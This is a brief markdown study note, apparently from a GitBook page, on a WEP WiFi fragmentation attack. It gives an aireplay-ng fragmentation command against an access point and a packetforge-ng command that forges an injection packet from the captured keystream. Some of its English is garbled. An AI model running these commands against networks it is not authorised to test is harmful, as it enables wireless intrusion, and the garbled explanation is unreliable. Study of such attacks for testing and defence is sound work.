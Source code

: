 # Fragmentation Attack

**Which attack number generator that used to generate random number to encryption**

```bash
aireplay-ng -5 -b BSSID_AP -h wlan_Bssid wlan0

# -5 -> refer to fragmentation attack
```

> need one packet to make this attack-b

![image.png](<../../../.gitbook/assets/image (2) (1).png>)

***

### Packet injection (Forging)

```bash
packetforge-ng -0 -a D8:29:18:0A:08:91 -h 7c:3d:09:00:07:47 -k 255.255.255.255 -l 255.255.255.255 fileFromFregmentAttack -w any_name
```

<figure><img src="../../../.gitbook/assets/image 1 (1) (1) (1).png" alt=""><figcaption></figcaption></figure>
